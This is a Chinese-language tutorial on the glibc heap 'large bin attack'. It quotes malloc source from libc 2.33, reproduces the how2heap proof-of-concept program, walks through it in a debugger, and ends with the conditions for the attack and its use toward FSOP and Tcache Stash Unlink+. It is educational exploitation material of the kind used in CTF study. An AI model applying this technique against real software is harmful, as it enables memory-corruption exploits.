



# Large Bin Attack

分配跟 large bin 有關的 chunk，要經過 fastbin，unsorted bin，small bin 的分配，建議在學習 large bin attack 之前搞清楚 fastbin，unsorted bin 分配的流程。

## large bin attack

這種攻擊方式主要利用的是 chunk 進入 bin 中的操作，在 malloc 的時候，遍歷 unsorted bin 時，對每一個 chunk，若無法 exact-fit 分配或不滿足切割分配的條件，就會將該 chunk 置入相應的 bin 中，而此過程中缺乏對 largebin 的跳錶指針的檢測。

以 2.33 版本的 libc 爲例，從 4052 行開始就是對 largebin chunk 的入 bin 操作

```cpp
else
            {
              victim_index = largebin_index (size);
              bck = bin_at (av, victim_index);
              fwd = bck->fd;

              /* maintain large bins in sorted order */
              if (fwd != bck)
                {
                  /* Or with inuse bit to speed comparisons */
                  size |= PREV_INUSE;
                  /* if smaller than smallest, bypass loop below */
                  assert (chunk_main_arena (bck->bk));
                  if ((unsigned long) (size)
		      < (unsigned long) chunksize_nomask (bck->bk))
                    {
                      fwd = bck;
                      bck = bck->bk;

                      victim->fd_nextsize = fwd->fd;
                      victim->bk_nextsize = fwd->fd->bk_nextsize;
                      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
                  else
                    {
                      assert (chunk_main_arena (fwd));
                      while ((unsigned long) size < chunksize_nomask (fwd))
                        {
                          fwd = fwd->fd_nextsize;
			  assert (chunk_main_arena (fwd));
                        }

                      if ((unsigned long) size
			  == (unsigned long) chunksize_nomask (fwd))
                        /* Always insert in the second position.  */
                        fwd = fwd->fd;
                      else
                        {
                          victim->fd_nextsize = fwd;
                          victim->bk_nextsize = fwd->bk_nextsize;
                          if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))
                            malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
                          fwd->bk_nextsize = victim;
                          victim->bk_nextsize->fd_nextsize = victim;
                        }
                      bck = fwd->bk;
                      if (bck->fd != fwd)
                        malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
                    }
                }
```

在 2.29 及以下的版本中，根據 unsorted chunk 的大小不同

```cpp
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
victim->bk_nextsize->fd_nextsize = victim;
```

在 unsorted chunk 小於鏈表中最小的 chunk 的時候會執行前一句，反之執行後一句。

由於兩者大小相同的時候只會使用如下的方法插入，所以此時無法利用。

```cpp
if ((unsigned long) size
			  == (unsigned long) chunksize_nomask (fwd))
                        /* Always insert in the second position.  */
                        fwd = fwd->fd;
```

所以有兩種利用方法。

在 2.30 版本新加入了對 largebin 跳錶的完整性檢查，使 unsorted chunk 大於鏈表中最小的 chunk 時的利用失效，必須使 unsorted chunk 小於鏈表中最小的 chunk，通過

```cpp
victim->bk_nextsize->fd_nextsize = victim;
```

實現利用，也就是將本 chunk 的地址寫到 `bk_nextsize + 0x20` 處。

## 通過實例學習 large bin attack 的原理

這裏我們拿 how2heap 中的 large bin attack 中的源碼來分析

```c
// 主要漏洞在這裏
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

    [...]

              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;

    [...]

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

// gcc large_bin_attack.c -o large_bin_attack -g
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```


編譯完以後，注意！一定要用 glibc2.25 的 loader，改變 loader 的方法可以看這裏：https://www.jianshu.com/p/1a966b62b3d4


pwngdb 走起，開始我們的分析之旅：





先跳到這個語句：（比 how2heap 源文件多添加了一個 p4 變量）


由於剛 free() 掉了兩個 chunk。現在的 unsorted bin 有兩個空閒的 chunk


要注意的是：


p1 的大小是 `0x330 < 0x3f0` 大小屬於 small bin，而 p2 的大小是 `0x410` 屬於large bin


 


75 行做了很多事情，我來概述一下：


+ 從 unsorted bin 中拿出最後一個  chunk（p1 屬於 small bin 的範圍）
+ 把這個 chunk 放入 small bin 中，並標記這個 small bin 有空閒的 chunk
+ 再從 unsorted bin 中拿出最後一個 chunk（p2 屬於 large bin 的範圍）
+ 把這個 chunk 放入 large bin 中，並標記這個 large bin 有空閒的 chunk
+ 現在 unsorted bin 爲空，從 small bin （p1）中分配一個小的 chunk 滿足請求 0x90，並把剩下的 chunk（0x330 - 0xa0）放入 unsorted bin 中


也就是說，現在：


unsorted bin 中有一個 chunk 大小是 `0x330 - 0xa0 = 0x290`


large bin 某一個序列的 bin 中有一個 chunk 大小是 `0x410`


**好我們繼續調試**：





又 free 了一個大小爲 0x410 的 large bin chunk。也就是說現在 unsorted bin 有兩個空閒的 chunk，末尾是大小 `0x290` 大小的 chunk，第一個是 size 爲 `0x410` 的 chunk。


接着開始構造：


修改 p2（large bin chunk），修改結果如下：




再來看看`malloc(0x90)`做了什麼：


中間的過程概述一下，待會詳細說重點：


與第一次 `malloc(0x90)` 過程類似：


+ 從 unsorted bin 中拿出最後一個 chunk（size = 0x290），放入 small bin 中，標記該序列的 small bin 有空閒 chunk
+ 再從 unsorted bin 中拿出最後一個 chunk（size = 0x410）


**重點來了：**


由於這次拿的是屬於 large bin chunk，進入了 else 分支：


我們繼續：


**在一個序列的 large bin chunk 中 fd_nextsize 的方向是 size 變小的方向。這個循環的意思是找到一個比當前 fwd 指的 chunk 要大的地址，存入 fwd 中**。


由於當前 fwd 的 size 被我們修改過=`0x3f0`，所以沒有進入循環。在這裏就有一個漏洞的限制，放在後面說。


這個原本的意思是把從 unsorted bin 中來的 chunk 插入這個序列中，但是這裏沒有檢查合法性。這裏存在這一個利用：


之前做的構造，把 fwd 的 bk_nextsize 指向了另一個地址


```c
victim->bk_nextsize = fwd->bk_nextsize
// then
victim->bk_nextsize->fd_nextsize = victim;
```


也就是：


```c
addr2->fd_nextsize = victim;
// 等價於
*(addr2+4) = victim;
```


所以修改了 `stack_var2` 的值。


接着還存着另外一個利用：

```c
bck = fwd->bk;
// ......
mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```


```c
bck->fd = victim;
// 等價於
(fwd->bk)->fd = victim;
// 等價於
*(addr1+2) = victim;
```


修改了 `stack_var1` 的值。


至此利用完畢。由於最後分配的還是 small bin 中的 chunk，與 large bin 中的 chunk 也無關了。


## 總結  large bin attack 的利用方法


how2heap 中也說了，large bin attack 是未來更深入的利用。現在我們來總結一下利用的條件：


+ 可以修改一個 large bin chunk 的 data
+ 從 unsorted bin 中來的 large bin chunk 要緊跟在被構造過的 chunk 的後面
+ 通過 large bin attack 可以輔助 Tcache Stash Unlink+ 攻擊
+ 可以修改 _IO_list_all 便於僞造 _IO_FILE 結構體進行 FSOP。


